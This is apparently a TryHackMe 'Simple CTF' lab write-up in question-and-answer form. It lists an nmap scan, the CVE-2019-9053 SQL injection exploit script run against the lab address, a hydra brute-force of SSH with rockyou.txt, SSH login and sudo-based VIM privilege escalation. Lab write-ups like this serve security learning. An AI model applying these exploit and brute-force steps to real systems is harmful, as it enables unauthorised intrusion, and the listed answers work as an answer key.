 
# THM-Simple CTF write-up
**Simple CTF**

https://tryhackme.com/room/easyctf

**Task 1 Simple CTF**

 
**How many services are running under port 1000?**

 ~#nmap -A [IP Address] -oA scan.txt
  
A. 2


 
**What is running on the higher port?** 

A. SSH


**What's the CVE you're using against the application?**


A. CVE-2019-9053


**To what kind of vulnerability is the application vulnerable?**

A. SQLi


**What's the password?**

    ~#python 46635.py -u http://10.10.176.184/simple/ --crack -w /usr/share/wordlists/dirb/common.txt
  
  ~#hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.176.184:2222



**Where can you login with the details obtained?**


    ~# ssh -p2222 mitch@10.10.176.184

**What's the user flag?**




**Is there any other user in the home directory? What's its name?**

sunbath


**What can you leverage to spawn a privileged shell?**

   ~#sudo -l
 
A. VIM

**What's the root flag?**







